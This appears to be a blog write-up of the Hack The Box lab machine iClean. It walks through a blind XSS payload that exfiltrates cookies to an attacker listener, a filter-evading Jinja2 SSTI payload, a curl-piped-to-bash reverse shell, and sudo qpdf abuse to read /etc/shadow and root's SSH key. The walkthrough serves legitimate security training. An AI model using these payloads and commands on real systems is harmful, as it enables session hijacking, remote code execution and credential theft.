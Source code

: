 +++ 
draft = false
date = 2024-04-15T09:05:17-04:00
title = "Hack The Box Write-up: iClean"
description = "A write-up of my experience completing the Hack The Box system iClean."
slug = "" 
tags = ["Hack the Box", "pentesting"]
categories = []
externalLink = ""
series = []
+++

iClean is a Linux box created by LazyTitan33 that is rated medium by the HTB community. iClean's exploit
process involves exploiting a web application vulnerable to blind cross-site scripting (XSS), server-side template
injection (SSTI), and then privilege escalation via an arbitrary write as root vulnerability in the sudo configuration.
# Enumeration

As usual, we start by enumerating the open ports and services on the system.

```
# Nmap 7.94SVN scan initiated Mon Apr 15 12:07:52 2024 as: nmap -p- -sV -oA 10.10.11.12 -v 10.10.11.12
Nmap scan report for capiclean.htb (10.10.11.12)
Host is up (0.027s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Apr 15 12:07:59 2024 -- 1 IP address (1 host up) scanned in 7.04 seconds
```
# HTTP
The only usable listening service at our disposal is HTTP. Browsing to the index page of the site
reveals this page:

![index page, blue page with "iClean - Keep your house clean"](/posts/iclean/index_page.png)

The menu bar in the top right of the page lists 5 menu options, as shown below.

![Five options: Home, Services, About, Choose, Team](/posts/iclean/menu.png)

I browsed through each page to enumerate the application's functionality, and found a page to obtain a quote for services at `http://capiclean.htb/quote`. The page is shown below.

![A page with three checkboxes - Carpet Cleaning, Tile & Grout, Office Cleaning, and an input field for an email address](/posts/iclean/quote_page.png)
## Blind XSS
I found that the email address field was vulnerable to Blind XSS. I discovered the vulnerability when I sent a crafted request for carpet cleaning. A normal quote generated an HTTP POST request to `http://capiclean.htb/sendMessage`  proxied by Burp Suite is shown below.
![an HTTP POST request to the endpoint with these parameters: service=Carpet+Cleaning&email=test%40capiclean.htb](/posts/iclean/normal_quote_request.png)

I chose a payload that would send the victim's cookies to a Netcat listener on port 1337. The payload and the URL encoded version of the payload is shown below in the Decoder component in Burp Suite.

![JavaScript payload: <img src=x onerror=this.src="http://10.10.14.225:1337/"+btoa(document.cookie)>](/posts/iclean/xss_payload.png)

I saved the cookie in Cookie Manager and browsed to `/dashboard`, which allowed me access to the application's admin panel.

![Admin Dashboard - page with "Generate Invoice", "Generate QR", "Edit Services", and "Quote Requests" buttons](/posts/iclean/admin_panel.png)
## Server-Side Template Injection (SSTI)
I browsed to each of the new pages and found the QR generation page accepted an invoice number generated by the "Generate Invoice" page.
![Page with the following text: "Invoice ID generated: 672097015". The ID is cut off by the end of the screen.](/posts/iclean/generate_invoice.png)
![Page with a text field for an invoice ID, and the invoice ID from the last screenshot entered into it](/posts/iclean/generate_qr.png)

The next page allowed the user to enter a link to a QR code that would be added to an invoice generated by the page.
![Page with the same field as above, as well as a field saying "Insert QR link to generate scannable invoice".](/posts/iclean/qr_link.png)

An invoice generated with "test" for the link is shown below.
![Invoice for the quoted service](/posts/iclean/invoice.png)

The QR-link field can be leveraged to inject arbitrary data in the Jinja2 Python templating engine used by the web application. I identified that the website was using Flask by noticing the Server header in each response returned by the application. [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti) includes a primer on different payloads for testing injection as well as how to leverage injection to obtain arbitrary read/write and RCE via the templating engine. 

I demonstrated this vulnerability first by injecting ``{{config.items()}}`` into the QR link field. 

![Request with the qr-link field set as described, and a response showing a number of configuration items set by the Jinja2 templating engine](/posts/iclean/config_items.png)

While testing several payloads, I found that certain characters caused the application to return an HTTP 500 response. For example, requests with `_` in the field returned an HTTP 500.
![Request with `{{[].__class__}} in the qr_link parameter](/posts/iclean/ssti_1.png)

Encoding the payload with the format `\x + hex_code` allowed the request to go through. The root directory on the webserver was displayed in place of the QR code URL.

![Request with the following qr link: {{""["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fmro\x5f\x5f"][1]["\x5f\x5fsubclasses\x5f\x5f"]()[365]('ls /',shell=True,stdout=-1).communicate()}}](/posts/iclean/ssti_2.png)

I then crafted an RCE payload following the steps given in the HackTricks writeup. The request and response in Burp Suite Repeater is shown below.

![Same payload as above except instead of `ls /`, the command is `curl http://10.10.14.225:1337](/posts/iclean/ssti_3.png)

A Netcat listener open on 1337 successfully received the HTTP request generated by the curl command.
![A terminal window with the command `nc -lvp 1337` and an incoming HTTP GET request for / with the curl user agent.](/posts/iclean/ssti_curl_request.png)

I wrote a bash reverse shell that would connect back to port 1337, which is shown here. I placed it in `/var/www/html` and then started the Apache webserver on my Kali VM.
![](/posts/iclean/ssti_bash_payload.png)

I triggered another command to request the payload and pass the payload to a new bash process, as shown below.
![Burp Repeater request and response with the RCE payload `curl http://10.10.14.225/exploit.sh|bash`](ssti_execute_reverse_shell.png)

A reverse shell was spawned and connected to the netcat listener.
![A reverse shell as www-data on the iclean box.](/posts/iclean/reverse_shell.png)


# User own
While this is a step in the right direction, the www-data user doesn't have a lot of access on the system. The user is able to look at all files within `/opt/app`, which includes the `app.py` file used to serve the web application. At the top of the file there were credentials to connect to a MySQL database used to store records used by the web application.

![The top of the application source code, including the database creds](/posts/iclean/app_py.png)

It would be unwieldy to try to use the MySQL client over a reverse shell, so I used [Chisel](https://github.com/jpillora/chisel) to forward the MySQL port on the iclean box to my Kali VM. The command I used to forward the port is shown below.
![Command: chisel client 10.10.14.225:4444 R:3306:localhost:3306](/posts/iclean/chisel_port_forward.png)

I was then able to connect to the iclean box's MySQL server using the MySQL client on my Kali box.
![MySQL client connected as the iclean user](/posts/iclean/mysql_client.png)

I enumerated the database and found a users table in the capiclean database, which included the admin user as well as a user named `consuela` in the application.
![Explained above](/posts/iclean/mysql_user_and_hashes.png)

I entered both hashes into CrackStation, and the password hash for `consuela` was successfully cracked.

![The password for consuela is "simple and clean".](/posts/iclean/crackstation.png)

Using this information, I was able to login as consuela over SSH to the box and obtain the user flag.
![ssh consuela@capiclean.htb](/posts/iclean/consuela_ssh.png)

## Enumeration

After getting access to the consuela user, I began enumerating information about the box. Out of habit I usually
run the `sudo -l` command at the start of any user enum on *nix systems since it's easy to misconfigure `sudo` in a
way that allows privilege escalation to root. As luck would have it, the user does have access to running a command
as sudo, as shown below.

![`sudo -l` showing user may run `/usr/bin/qpdf` as root](/posts/iclean/sudo.png)

## Privilege Escalation 
`qpdf` is [a content-preserving PDF document transformer](https://github.com/qpdf/qpdf). We don't need to know much of how the utility works, other than that it can read and write to any files that are owned by the user the program is running as. 

`qpdf` has three command parameters that can be utilized to attach, list, and display attachments to a pdf file. They are:
- `--add-attachment`
- `--list-attachment`
- `--show-attachments`

The functions are self-explanatory. At first I used the command to obtain the `/etc/shadow` file by adding it as an attachment to a sample PDF that was accessible as the `consuela` user, as shown below.
![Command line: `sudo /usr/bin/qpdf --add-attachment /etc/shadow -- test-file.pdf`](/posts/iclean/shadow_attachment.png)

However, the root password was not able to be cracked using CrackStation or John the Ripper and hashcat. Instead of spending more time trying to crack the hash, I instead tried to obtain a private key from `/root/.ssh/id_rsa`, which is shown below.
![Command line: `sudo /usr/bin/qpdf --add-attachment /root/.ssh/id_rsa -- test-file.pdf`](/posts/iclean/root_ssh_key.png)

I then attempted to login as root via SSH, which was successful, as shown below.
![Successful login as root to capiclean.htb](/posts/iclean/root_pwn.png)

# Conclusion
This was a fun and creative box, pretty solidly tailored towards my areas of expertise: web application security and Linux privelege escalation. Thank you to LazyTitan53 for creating this box!